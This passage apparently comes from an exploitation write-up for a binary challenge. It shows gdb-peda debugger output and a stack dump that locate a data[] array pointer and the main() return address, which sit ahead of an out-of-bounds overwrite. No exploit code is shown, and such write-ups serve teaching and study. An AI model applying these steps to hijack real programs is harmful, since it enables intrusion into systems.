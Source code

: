 ```nasm
   0x8048b5e <main+332>:    jne    0x8048b75 <main+355>
   0x8048b60 <main+334>:    lea    eax,[esp+0x18]
   0x8048b64 <main+338>:    mov    DWORD PTR [esp],eax
=> 0x8048b67 <main+341>:    call   0x8048917 <store_number>
   0x8048b6c <main+346>:    mov    DWORD PTR [esp+0x1bc],eax
   0x8048b73 <main+353>:    jmp    0x8048bd2 <main+448>
   0x8048b75 <main+355>:    mov    DWORD PTR [esp+0x8],0x4
   0x8048b7d <main+363>:    mov    DWORD PTR [esp+0x4],0x8048f63
Guessed arguments:
arg[0]: 0xbffff508 --> 0x0
[------------------------------------stack-------------------------------------]
0000| 0xbffff4f0 --> 0xbffff508 --> 0x0
0004| 0xbffff4f4 --> 0x8048f5d ("store")
0008| 0xbffff4f8 --> 0x5
0012| 0xbffff4fc --> 0x0
0016| 0xbffff500 --> 0xb7fff55c --> 0xb7fde000 --> 0x464c457f
0020| 0xbffff504 --> 0xbffff568 --> 0x0
0024| 0xbffff508 --> 0x0
0028| 0xbffff50c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048b67 in main ()
```

Here, the pointer to the `data[]` array is `0xbffff508`. Now, what? Well, now that we have the pointer of our array, we can start dumping the content of the stack to find out where the *main()* return address (`0xb7e3ca83`) is:

```nasm
gdb-peda$ x/128x 0xbffff508
0xbffff508: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff518: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff528: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff538: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff548: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff558: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff568: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff578: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff588: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff598: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5a8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5b8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5c8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5d8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5e8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff5f8: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff608: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff618: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff628: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff638: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff648: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff658: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff668: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff678: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff688: 0x00000000  0x00000000  0x00000000  0x00000000
0xbffff698: 0x726f7473  0x00000065  0x00000000  0x00000000
0xbffff6a8: 0x00000000  0x00000001  0xb7fcd000  0x00000000
0xbffff6b8: 0x00000000  0xb7e3ca83  0x00000001  0xbffff758
0xbffff6c8: 0xbffff7bc  0xb7feccea  0x00000001  0xbffff754
```
